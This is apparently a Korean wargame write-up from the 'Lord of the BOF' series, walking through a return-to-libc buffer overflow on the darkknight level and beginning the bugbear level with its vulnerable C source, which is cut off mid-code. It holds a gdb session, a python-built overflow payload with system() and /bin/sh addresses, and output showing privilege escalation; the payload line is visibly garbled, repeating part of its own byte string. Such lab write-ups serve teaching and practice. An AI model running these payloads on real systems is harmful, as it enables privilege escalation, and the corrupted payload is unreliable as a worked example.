 - 참조 : http://blog.asdfasdf.kr/150

위 블로그를 참고 하면 다음과 같다. RTL를 이용하여, 라이브러리에 존재하는 /bin/sh의 위치를 알아내 RET함수에 system 함수의 주소를 입력하고 4byte의 더미 값을 입력 후 /bin/sh의 주소 값을 넣으면 익스가 성공하게 된다.

```
[darkknight@localhost tmp]$ gdb -q ./bugbear
(gdb) b main
Breakpoint 1 at 0x8048436
(gdb) r
Starting program: /home/darkknight/tmp/./bugbear

Breakpoint 1, 0x8048436 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>


./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\A"*44+"\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"'`

uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
bash$ my-pass
euid = 513
new divide
```

## bugbear

이 문제는 좀 어려워서... http://ssaemo.tistory.com/30 블로그를 참고하였다.

해당 문제는 execve 함수를 통해 exploit 하는 문제로 아래 내용을 살펴 보자

### 1. source code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// gain address of execve
	fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep libc | /bin/awk '{print $4}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "(%x)", &lib_addr);
	fclose(fp);

	fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
	fgets(buffer, 255, fp);
	sscanf(buffer, "%x", &execve_offset);
```
